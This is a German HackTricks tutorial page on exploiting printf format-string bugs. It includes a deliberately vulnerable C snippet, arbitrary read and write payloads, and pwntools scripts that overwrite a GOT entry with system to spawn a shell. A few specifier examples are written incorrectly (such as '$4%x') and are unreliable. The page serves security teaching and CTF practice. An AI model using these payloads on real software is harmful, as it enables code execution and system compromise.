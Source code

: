# Format Strings

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Grundinformationen

In C **`printf`** ist eine Funktion, die verwendet werden kann, um **einen** String **auszugeben**. Der **erste Parameter**, den diese Funktion erwartet, ist der **rohe Text mit den Formatierern**. Die **folgenden Parameter**, die erwartet werden, sind die **Werte**, um die **Formatierer** aus dem rohen Text zu **ersetzen**.

Die Schwachstelle tritt auf, wenn ein **Angreifertext als erstes Argument** für diese Funktion verwendet wird. Der Angreifer kann eine **spezielle Eingabe erstellen, die** die **printf-Format**-String-Funktionen ausnutzt, um **beliebige Daten an beliebiger Adresse (lesbar/schreibbar)** zu lesen und **zu schreiben**. Auf diese Weise kann er **beliebigen Code ausführen**.

#### Formatierer:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Beispiele:**

* Verwundbares Beispiel:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Verwendung:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Mit fehlenden Argumenten:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Zugriff auf Zeiger**

Das Format **`%<n>$x`**, wobei `n` eine Zahl ist, ermöglicht es printf, den n-ten Parameter (vom Stack) auszuwählen. Wenn Sie also den 4. Parameter vom Stack mit printf lesen möchten, könnten Sie Folgendes tun:
```c
printf("%x %x %x %x")
```
und du würdest vom ersten bis zum vierten Parameter lesen.

Oder du könntest tun:
```c
printf("$4%x")
```
und direkt das vierte lesen.

Beachten Sie, dass der Angreifer den `pr`**`intf`-Parameter kontrolliert, was im Grunde bedeutet, dass** seine Eingabe im Stack sein wird, wenn `printf` aufgerufen wird, was bedeutet, dass er spezifische Speicheradressen im Stack schreiben könnte.

{% hint style="danger" %}
Ein Angreifer, der diese Eingabe kontrolliert, wird in der Lage sein, **willkürliche Adressen im Stack hinzuzufügen und `printf` dazu zu bringen, auf sie zuzugreifen**. Im nächsten Abschnitt wird erklärt, wie man dieses Verhalten nutzt.
{% endhint %}

## **Willkürliches Lesen**

Es ist möglich, den Formatter **`$n%s`** zu verwenden, um **`printf`** die **Adresse** an der **n-Position** zu entnehmen, die ihm folgt, und **sie so zu drucken, als wäre es eine Zeichenkette** (drucken, bis ein 0x00 gefunden wird). Wenn die Basisadresse des Binaries **`0x8048000`** ist und wir wissen, dass die Benutzereingabe an der 4. Position im Stack beginnt, ist es möglich, den Anfang des Binaries mit:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Beachten Sie, dass Sie die Adresse 0x8048000 nicht am Anfang der Eingabe setzen können, da der String am Ende dieser Adresse bei 0x00 abgeschnitten wird.
{% endhint %}

## **Willkürliches Schreiben**

Der Formatter **`$<num>%n`** **schreibt** die **Anzahl der geschriebenen Bytes** in die **angegebene Adresse** im \<num> Parameter im Stack. Wenn ein Angreifer so viele Zeichen wie gewünscht mit printf schreiben kann, wird er in der Lage sein, **`$<num>%n`** eine willkürliche Zahl an einer willkürlichen Adresse schreiben zu lassen.

Glücklicherweise ist es nicht notwendig, 9999 "A"s zur Eingabe hinzuzufügen, um die Zahl 9999 zu schreiben. Um dies zu tun, ist es möglich, den Formatter **`%.<num-write>%<num>$n`** zu verwenden, um die Zahl **`<num-write>`** in die **Adresse, die durch die `num` Position angezeigt wird**, zu schreiben.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Allerdings ist zu beachten, dass normalerweise, um eine Adresse wie `0x08049724` (was eine RIESIGE Zahl ist, die man auf einmal schreiben muss) zu schreiben, **`$hn`** anstelle von **`$n`** verwendet wird. Dies ermöglicht es, **nur 2 Bytes** zu schreiben. Daher wird dieser Vorgang zweimal durchgeführt, einmal für die höchsten 2B der Adresse und ein weiteres Mal für die niedrigeren.

Daher ermöglicht diese Schwachstelle, **alles an jede Adresse zu schreiben (willkürliches Schreiben).**

In diesem Beispiel wird das Ziel sein, die **Adresse** einer **Funktion** in der **GOT**-Tabelle zu **überschreiben**, die später aufgerufen wird. Obwohl dies andere Techniken des willkürlichen Schreibens zu exec missbrauchen könnte:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Wir werden eine **Funktion** **überschreiben**, die ihre **Argumente** vom **Benutzer** **erhält** und sie auf die **`system`** **Funktion** **zeigt**.\
Wie bereits erwähnt, sind normalerweise 2 Schritte erforderlich, um die Adresse zu schreiben: Zuerst **schreibt man 2 Bytes** der Adresse und dann die anderen 2. Dazu wird **`$hn`** verwendet.

* **HOB** wird auf die 2 höheren Bytes der Adresse aufgerufen
* **LOB** wird auf die 2 niedrigeren Bytes der Adresse aufgerufen

Dann, aufgrund der Funktionsweise von Format-Strings, müssen Sie **zuerst das kleinste** von \[HOB, LOB] schreiben und dann das andere.

Wenn HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Wenn HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-Vorlage

Sie finden eine Vorlage, um einen Exploit für diese Art von Schwachstelle vorzubereiten in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Oder dieses grundlegende Beispiel von [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Weitere Beispiele & Referenzen

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 Bit, kein relro, kein canary, nx, kein pie, grundlegende Verwendung von Format-Strings, um das Flag vom Stack zu leaken (keine Notwendigkeit, den Ausführungsfluss zu ändern)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 Bit, relro, kein canary, nx, kein pie, Format-String, um die Adresse `fflush` mit der Win-Funktion (ret2win) zu überschreiben
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 Bit, relro, kein canary, nx, kein pie, Format-String, um eine Adresse innerhalb von main in `.fini_array` zu schreiben (damit der Fluss ein weiteres Mal zurückkehrt) und die Adresse zu `system` in der GOT-Tabelle zu schreiben, die auf `strlen` zeigt. Wenn der Fluss zurück zu main geht, wird `strlen` mit Benutzereingaben ausgeführt und zeigt auf `system`, es werden die übergebenen Befehle ausgeführt.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
